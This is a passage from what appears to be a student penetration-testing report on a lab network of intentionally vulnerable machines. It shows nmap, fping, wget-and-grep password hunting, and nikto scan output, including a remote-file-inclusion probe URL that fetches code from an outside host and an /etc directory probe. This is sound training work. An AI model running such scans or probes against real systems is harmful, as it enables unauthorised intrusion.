          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:472581 errors:0 dropped:0 overruns:0 frame:0
          TX packets:435725 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:258604722 (258.6 MB)  TX bytes:92862199 (92.8 MB)
          Interrupt:19 Base address:0x2000 
\end{lstlisting}

I used nmap\footnote{\label{nmap}nmap - Network exploration tool and security / port scanner} 
to do a ping sweep of the active hosts in the 
10.2.1.0/24 CIDR range.

\begin{lstlisting}[language=Bash, firstline=1, lastline=1]
root@bt-was:~/scans# nmap -sP 10.2.1.0/24

Starting Nmap 6.01 ( http://nmap.org ) at 2016-02-12 09:51 EST
Nmap scan report for metasploitable.sait230.ca (10.2.1.1)
Host is up (0.00029s latency).
MAC Address: 00:0C:29:B8:82:E1 (VMware)
Nmap scan report for websecdojo.sait230.ca (10.2.1.2)
Host is up (0.00027s latency).
MAC Address: 00:0C:29:2A:C8:AF (VMware)
Nmap scan report for ultimatelamp.sait230.ca (10.2.1.3)
Host is up (0.00016s latency).
MAC Address: 00:0C:29:23:94:3C (VMware)
Nmap scan report for samurai.sait230.ca (10.2.1.4)
Host is up (0.00038s latency).
MAC Address: 00:0C:29:A9:4F:36 (VMware)
Nmap scan report for nessus.sait230.ca (10.2.1.5)
Host is up (0.00022s latency).
MAC Address: 00:0C:29:90:C9:6F (VMware)
Nmap scan report for tomcat-apache.sait230.ca (10.2.1.6)
Host is up (0.00015s latency).
MAC Address: 00:0C:29:72:36:2B (VMware)
Nmap scan report for bwa.sait230.ca (10.2.1.8)
Host is up (0.00028s latency).
MAC Address: 00:0C:29:4C:6D:F9 (VMware)
Nmap scan report for bt5r3-was.sait230.ca (10.2.1.30)
Host is up.
nexthost: failed to determine route to 10.2.1.32
QUITTING!
\end{lstlisting}

In total 9 active hosts on the network were discovered. All hosts were
located in the 10.2.1.0/24 subnet.

I used fping\footnote{\label{fping}fping - fping - send ICMP ECHO\_REQUEST packets to network hosts} 
to make sure these hosts were active on the network

\begin{lstlisting}
root@bt-was:~/scans# fping 10.2.1.1 10.2.1.2 10.2.1.3 10.2.1.4 10.2.1.5 10.2.1.6 10.2.1.8
10.2.1.1 is alive
10.2.1.2 is alive
10.2.1.3 is alive
10.2.1.4 is alive
10.2.1.5 is alive
10.2.1.6 is alive
10.2.1.8 is alive
\end{lstlisting}

\csvautotabular{hosts.csv}

\newpage
\section{Appendix B: Mapping}

Below is a list of open ports and services running. This list was put together using nmap.

\csvautotabular{ports.csv}

My main focus was to identify ports used for hosting web applications and databases. 
The significant open ports to note are 80, 443, 8080, 3306, 5432.

Ports 80, 443 are typically used by web servers for serving HTTP traffic.
8180 is usually used by back end application servers and typically bind to the 127.0.0.1
interface. In the table above we can see that on the bwa host Apache Tomcat is binding 
to interface 0.0.0.0 making it directly accessible from outside the host.

3306 is the default port used by mysql database.
5432 is the default port used by the postgresql database.
Gaining direct access to the database would give us access to the backend data
that the web applications serve data from.

\noindent The following command was used against each host:
\begin{lstlisting}[language=bash, firstline=1, lastline=3]
\$ nmap -sV <hostname>

Starting Nmap 7.01 ( https://nmap.org ) at 2016-02-08 12:02 MST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00036s latency).
Other addresses for localhost (not scanned): ::1
Not shown: 998 closed ports
PORT     STATE SERVICE    VERSION
2222/tcp open  ssh        OpenSSH 5.3 (protocol 2.0)
3000/tcp open  tcpwrapped

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.78 seconds
\end{lstlisting}

\subsection{metasploitable.sait230.ca}

\begin{lstlisting}[language=bash]
Starting Nmap 6.01 ( http://nmap.org ) at 2016-02-12 13:40 EST
Nmap scan report for metasploitable.sait230.ca (10.2.1.1)
Host is up (0.0022s latency).
Not shown: 977 closed ports
PORT     STATE SERVICE              VERSION
21/tcp   open  ftp                  vsftpd 2.3.4
22/tcp   open  ssh                  OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet               Linux telnetd
25/tcp   open  smtp                 Postfix smtpd
53/tcp   open  domain               ISC BIND 9.4.2
80/tcp   open  http                 Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind (rpcbind V2) 2 (rpc #100000)
139/tcp  open  netbios-ssn          Samba smbd 3.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn          Samba smbd 3.X (workgroup: WORKGROUP)
512/tcp  open  exec?
513/tcp  open  login?
514/tcp  open  tcpwrapped
1099/tcp open  rmiregistry          GNU Classpath grmiregistry
1524/tcp open  ingreslock?
2049/tcp open  nfs (nfs V2-4)       2-4 (rpc #100003)
2121/tcp open  ftp                  ProFTPD 1.3.1
3306/tcp open  mysql                MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql           PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc                  VNC (protocol 3.3)
6000/tcp open  X11                  (access denied)
6667/tcp open  irc                  Unreal ircd
8009/tcp open  ajp13                Apache Jserv (Protocol v1.3)
8180/tcp open  http                 Apache Tomcat/Coyote JSP engine 1.1
\end{lstlistring}

I chose to spider the metasploitable website to analyze the full site locally 
to try to identify and information leakage in the website.

\begin{lstlisting}[language=bash, firstline=1, lastline=1]
\$ wget -r metasploitable.sait230.ca
\end{lstlisting}

The above command will recursively download the full metasploitable website. I ran grep
on the downloaded source to try to find some keywords like password.

\begin{lstlisting}[language=bash]
\$ grep -rn password metasploitable.sait230.ca/
\end{lstlisting}

Here's one snippet that i discovered:

\begin{lstlisting}[language=bash]
metasploitable.sait230.ca/mutillidae/index.php?do=toggle-security&page=user-info.php:2: \
<!-- I think the database password is set to blank or perhaps samurai.
\end{lstlisting}

The above text shows then a client side html comment was left in the code that hints at a possible password for the database.

Another example:

\begin{lstlisting}[language=Bash]
metasploitable.sait230.ca/mutillidae/index.php?page=site-footer-xss-discussion.php:5: \
It is ok to put the password in HTML comments because no user will ever see 
\end{lstlisting}

The above statement is incorrect. Serverside comments will be rendered on the server
and will be ommitted by most templating engines when producing html. However, it will
not strip out html comments. Html comments can be easily viewed by all browsers. Passwords
and information that gives away details about the backend system should never be
writtin in a code comment.

Next, I opened up the file metasploitable.sait230.ca/mutillidae/index.php and 
found the following code comment at the top of the HTML document.

\begin{lstlisting}[language=HTML]
<!-- I think the database password is set to blank or perhaps samurai.
It depends on whether you installed this web app from irongeeks site or
are using it inside Kevin Johnsons Samurai web testing framework. 
It is ok to put the password in HTML comments because no user will ever see 
this comment. I remember that security instructor saying we should use the
framework comment symbols (ASP.NET, JAVA, PHP, Etc.) 
rather than HTML comments, but we all know those security instructors are 
just making all this up. -->
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" 
"http://www.w3.org/TR/19 99/REC-html401-19991224/loose.dtd">
\end{lstlisting}

\subsection{bwa.sait230.ca}

\begin{lstlisting}[language=bash]
root@bt-was:~# nmap -sV bwa.sait230.ca | less

Starting Nmap 6.01 ( http://nmap.org ) at 2016-02-12 13:57 EST
Nmap scan report for bwa.sait230.ca (10.2.1.8)
Host is up (0.0011s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 5.3p1 Debian 3ubuntu4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.2.14 ((Ubuntu) mod_mono/2.4.3 PHP/5.3.2-1ubuntu4.5 with Suhosin-Patch mod_python/3.3.1 Python/2.6.5 mod_perl/2.0.4 Perl/v5.10.1)
139/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
143/tcp open  imap        Courier Imapd (released 2008)
445/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
MAC Address: 00:0C:29:4C:6D:F9 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:kernel

Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.26 seconds
\end{lstlisting}


\subsection{tomcat-apache.sait230.ca}

\begin{lstlisting}[language=bash]
root@bt-was:~# nmap -sV tomcat-apache.sait230.ca

Starting Nmap 6.01 ( http://nmap.org ) at 2016-02-12 13:42 EST
Nmap scan report for tomcat-apache.sait230.ca (10.2.1.6)
Host is up (0.00052s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.5p1 Debian 6+squeeze2 (protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.16 ((Debian))
443/tcp open  ssl/http Apache httpd 2.2.16 ((Debian))
MAC Address: 00:0C:29:72:36:2B (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:kernel

Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.27 seconds
\end{lstlisting}

\subsection{ultimatelamp.sait230.ca}

\begin{lstlisting}[language=bash]
root@bt-was:~# nmap -sV ultimatelamp.sait230.ca

Starting Nmap 6.01 ( http://nmap.org ) at 2016-02-12 13:43 EST
Nmap scan report for ultimatelamp.sait230.ca (10.2.1.3)
Host is up (0.030s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.0.54 ((Ubuntu) PHP/5.0.5-2ubuntu1.2)
MAC Address: 00:0C:29:23:94:3C (VMware)

Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.36 seconds
\end{lstlisting}

\newpage
\section{Appendix C: Discovery}

System vulnerabilities discovered

\csvautotabular{discovery.csv}

Web Application vulnerabilities discovered

\csvautotabular{discovery-webapp.csv}

\subsection{Vulnerabilities for bwa.sait230.ca}

nikto scan:

\begin{lstlisting}[language=Bash]
root@bt-was:/pentest/web/nikto# ./nikto.pl -host bwa.sait230.ca -p 80
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.2.1.8
+ Target Hostname:    bwa.sait230.ca
+ Target Port:        80
+ Start Time:         2016-02-12 14:03:58 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.2.14 (Ubuntu) mod_mono/2.4.3 PHP/5.3.2-1ubuntu4.5 with Suhosin-Patch mod_python/3.3.1 Python/2.6.5 mod_perl/2.0.4 Perl/v5.10.1
+ OSVDB-3268: /cgi-bin/: Directory indexing found.
+ Apache/2.2.14 appears to be outdated (current is at least Apache/2.2.19). Apache 1.3.42 (final release) and 2.0.64 are also current.
+ mod_perl/2.0.4 appears to be outdated (current is at least 5.8)
+ mod_mono/2.4.3 appears to be outdated (current is at least 2.8)
+ PHP/5.3.2-1ubuntu4.5 appears to be outdated (current is at least 5.3.6)
+ Python/2.6.5 appears to be outdated (current is at least 2.6.10)
+ Perl/v5.10.1 appears to be outdated (current is at least v5.12.2)
+ OSVDB-630: IIS may reveal its internal or real IP in the Location header via a request to the /images directory. The value is "http://127.0.0.1/images/".
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ Retrieved x-powered-by header: PHP/5.3.2-1ubuntu4.5
+ OSVDB-3268: : Directory indexing found.
+ OSVDB-3092: /phpmyadmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3268: /test/: Directory indexing found.
+ OSVDB-3092: /test/: This might be interesting...
+ OSVDB-3092: /cgi-bin/: This might be interesting... possibly a system shell found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3268: /images/?pattern=/etc/*&sort=name: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-40478: /tikiwiki/tiki-graph_formula.php?w=1&h=1&s=1&min=1&max=2&f[]=x.tan.phpinfo()&t=png&title=http://cirt.net/rfiinc.txt?: TikiWiki contains a vulnerability which allows remote attackers to execute arbitrary PHP code.
+ /wordpress/: A Wordpress installation was found.
+ /phpmyadmin/: phpMyAdmin directory found
+ 6474 items checked: 1 error(s) and 23 item(s) reported on remote host
+ End Time:           2016-02-12 14:04:43 (GMT-5) (45 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
\end{lstlisting}

\subsection{Vulnerabilities for metasploitable.sait230.ca}

nikto scan:

\begin{lstlisting}[language=Bash]
root@bt-was:/pentest/web/nikto# ./nikto.pl -host metasploitable.sait230.ca -p 80
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.2.1.1
+ Target Hostname:    metasploitable.sait230.ca
+ Target Port:        80
+ Start Time:         2016-02-12 14:02:27 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.2.8 (Ubuntu) DAV/2
+ Retrieved x-powered-by header: PHP/5.2.4-2ubuntu5.10
+ Apache/2.2.8 appears to be outdated (current is at least Apache/2.2.19). Apache 1.3.42 (final release) and 2.0.64 are also current.
+ DEBUG HTTP verb may show server debugging information. See http://msdn.microsoft.com/en-us/library/e8z01xdh%28VS.80%29.aspx for details.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-3233: /phpinfo.php: Contains PHP configuration information
+ OSVDB-3268: /doc/: Directory indexing found.
+ OSVDB-48: /doc/: The /doc/ directory is browsable. This may be /usr/doc.
+ OSVDB-12184: /index.php?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3092: /phpMyAdmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3092: /phpMyAdmin/: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3268: /test/: Directory indexing found.
+ OSVDB-3092: /test/: This might be interesting...
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpMyAdmin/: phpMyAdmin directory found
+ 6474 items checked: 1 error(s) and 15 item(s) reported on remote host
+ End Time:           2016-02-12 14:03:22 (GMT-5) (55 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
\end{lstlisting}

\begin{lstlisting}[language=Bash]
root@bt-was:/pentest/web/nikto# ./nikto.pl -host metasploitable.sait230.ca -p 8180
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.2.1.1
+ Target Hostname:    metasploitable.sait230.ca
+ Target Port:        8180
+ Start Time:         2016-02-12 13:59:59 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-39272: /favicon.ico file identifies this server as: Apache Tomcat
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, TRACE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ DEBUG HTTP verb may show server debugging information. See http://msdn.microsoft.com/en-us/library/e8z01xdh%28VS.80%29.aspx for details.
+ /: Appears to be a default Apache Tomcat install.
+ OSVDB-376: /admin/contextAdmin/contextAdmin.html: Tomcat may be configured to let attackers read arbitrary files. Restrict access to /admin.
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3233: /tomcat-docs/index.html: Default Apache Tomcat documentation found.
+ OSVDB-3233: /manager/html-manager-howto.html: Tomcat documentation found.
+ OSVDB-3233: /manager/manager-howto.html: Tomcat documentation found.
+ OSVDB-3092: /webdav/index.html: WebDAV support is enabled.
+ OSVDB-3233: /jsp-examples/: Apache Java Server Pages documentation.
+ /admin/account.html: Admin login page/section found.
+ /admin/controlpanel.html: Admin login page/section found.
+ /admin/cp.html: Admin login page/section found.
+ /admin/index.html: Admin login page/section found.
+ /admin/login.html: Admin login page/section found.
+ /servlets-examples/: Tomcat servlets examples are visible.
+ 6474 items checked: 0 error(s) and 19 item(s) reported on remote host
+ End Time:           2016-02-12 14:02:01 (GMT-5) (122 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
\end{lstlisting}

The results from the nessus scan are below:

\begin{figure}[h!]
	
\includegraphics[width=\linewidth]{images/nessus-metasploitable.png}
	\caption{Nessus scan on metasploitable.sait230.ca.}
	\label{fig:nessus-metasploitable}
\end{figure}

\begin{figure}[h!]
	
\includegraphics[width=\linewidth]{images/screenshot.png}
	\caption{Directory listing enabled.}
	\label{fig:directory-listing}
\end{figure}

\subsection{Vulnerabilities for tomcat-apache.sait230.ca}
nikto scan:

\begin{lstlisting}[language=Bash]
root@bt-was:/pentest/web/nikto# ./nikto.pl -host tomcat-apache.sait230.ca -p 80
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.2.1.6
+ Target Hostname:    tomcat-apache.sait230.ca
+ Target Port:        80
+ Start Time:         2016-02-12 14:09:30 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.2.16 (Debian)
+ Root page / redirects to: http://tomcat-apache.sait230.ca/cp
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.2.16 appears to be outdated (current is at least Apache/2.2.19). Apache 1.3.42 (final release) and 2.0.64 are also current.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 6474 items checked: 0 error(s) and 3 item(s) reported on remote host
+ End Time:           2016-02-12 14:09:38 (GMT-5) (8 seconds)
